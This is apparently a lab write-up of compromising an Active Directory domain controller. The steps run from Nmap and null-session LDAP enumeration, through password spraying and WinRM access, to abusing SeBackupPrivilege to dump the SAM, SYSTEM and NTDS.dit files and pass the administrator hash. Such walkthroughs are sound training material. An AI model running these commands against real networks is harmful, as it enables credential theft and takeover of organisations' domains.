









## Nmap
First, as always, the challenge was started by running Nmap to enumerate the server's ports and services.
```
$ sudo nmap -p- -sCV 10.10.102.159 -oA nmap/init-tcp

Nmap scan report for 10.10.102.159
Host is up (0.049s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-07 11:25:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-02-07T11:26:32+00:00
|_ssl-date: 2026-02-07T11:27:11+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2026-02-06T10:45:42
|_Not valid after:  2026-08-08T10:45:42
5357/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
50737/tcp open  msrpc         Microsoft Windows RPC
52101/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-07T11:26:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1837.64 seconds
```
The scan confirmed that the target was a Windows domain controller named BabyDC.baby.vl, belonging to the baby.vl domain as a Domain Controller. It was found to be exposing the following ports and services:
- LDAP (389, 3268)
- Kerberos (88)
- SMB (445)
- RPC (various ports)
- WinRM (5985)
- RDP (3389)

<br>

## Foothold

It was then identified that LDAP enumeration using a null session was possible, and a password was discovered in the description field of the user "Teresa Bell".
```
ldapsearch -x -H ldap://10.10.102.159 -b "CN=Teresa Bell,OU=it,DC=baby,DC=vl" -s base
```


An attempt was made to access the SMB service using the discovered credentials, but it was unsuccessful.


The null session was then used again to enumerate and dump all existing users in the baby.vl domain:
```
ldapsearch -x -H ldap://10.10.102.159 -b "dc=baby,dc=vl" "objectClass=user" | grep sAMAccountName | awk {'print $2'} > usernames.txt
```


To complete the usernames.txt dictionary, two additional users were enumerated using the following query:
- Caroline Robinson
- Ian Walker
```
$ ldapsearch -x -H ldap://10.10.102.159 -b "dc=baby,dc=vl" "user" | grep dn
```


Once the dictionary was completed, a password spraying attack was executed using the obtained password.
```
nxc smb 10.10.102.159 -d BABY -u usernames.txt -p <password>
```


Valid credentials for the user "Caroline.Robinson" were found, but it was necessary to reset her password with the following command:

```
smbpasswd -r 10.10.102.159 -U Caroline.Robinson

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
```

After resetting the password, it was possible to enumerate the SMB shares and access with WinRM.
```
nxc smb 10.10.102.159 -d BABY -u Caroline.Robinson -p <password> --shares
```


```
evil-winrm -i 10.10.102.159 -u Caroline.Robinson -p <password> 
```

<br>

## Privilege escalation (failed attempt)
First, the current user's privileges were enumerated, revealing a clear privilege escalation path.


The abuse steps used were the ones described in the following blog post:
- https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
1. A temporary directory was created.
```
mkdir C:\temp
```
2. The SAM and SYSTEM hives from HKLM were copied to C:\temp:
```
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```
3. Both files were downloaded to the attacking machine:
```
download C:\temp\sam.hive
download C:\temp\system.hive
```


Once the files were on the attacker machine, "impacket-secretsdump" was executed to extract the hash of the local administrator.
```
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```


It was not possible to authenticate using this hash, as it corresponds to the local Administrator account, which is not available on a Domain Controller. Therefore, it was necessary to dump the NTDS database as well in order to retrieve the domain hashes


<br>

## Privilege Escalation (successful attempt)
First, as stated in the aforementioned blog post, a DiskShadow script was written to create a live copy of the C: drive and expose it as a network drive using the letter E:.


This step is not mentioned in the blog, but during the execution of this exercise several encoding issues were encountered with the script file. These issues were resolved using the following commands:
```
Get-Content C:\temp\back_script.txt |
Set-Content C:\temp\back_script_ascii.txt -Encoding ASCII
```

Once the file was uploaded and properly encoded, it was executed as follows:
```
diskshadow /s back_script.txt
```


After the script finished, the E: drive was accessed to verify that it had been correctly cloned:


Everything was as expected, so the NTDS.dit file was copied using Robocopy to the Temp directory created on the C: drive and then downloaded to the attacking machine.


```
download ntds.dit
```


Next, using the SYSTEM registry hive that was downloaded during the initial attempt, the NTDS file was decrypted with the following command:
```
impacket-secretsdump -ntds ntds.dit -system system.hive -hashes lmhash:nthash LOCAL
```


And finally, the host was accessed with administrator privileges using the obtained hash:
```
evil-winrm -i 10.10.102.159 -u Administrator -H <administrator-hash>
```
